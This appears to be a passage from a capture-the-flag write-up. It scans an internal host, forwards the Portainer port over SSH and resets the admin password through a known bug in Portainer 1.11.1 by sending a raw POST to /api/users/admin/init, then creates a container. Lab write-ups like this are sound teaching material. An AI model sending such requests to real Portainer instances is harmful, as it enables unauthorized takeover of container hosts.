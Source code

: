 The host 172.17.0.2 is reachable via `ping` and the software [Portainer](https://github.com/portainer/portainer) is a management UI for **Docker and Kubernetes** environments.

Port scanning the IP with **Nmap**:
```
nmap -sT 172.17.0.2
```
```
PORT     STATE SERVICE
9000/tcp open  cslistener
```

Forwarding port 9000 to my local clients port 9001 with the **SSH command line**:
```
ssh> -L9001:172.17.0.2:9000
```

On _localhost:9001_ the **Portainer web login** can now be accessed:

![Portainer Login](oz_web-2.png)

A [bug description on GitHub](https://github.com/portainer/portainer/issues/493) for **Portainer version 1.11.1** describes how to set any password for the _admin_ user:
```
POST /api/users/admin/init HTTP/1.1
(...)

{"username":"admin","password":"newpassword"}
```

After changing the password, the login works and it is possible to create a new container:
```
Container --> Add container
```
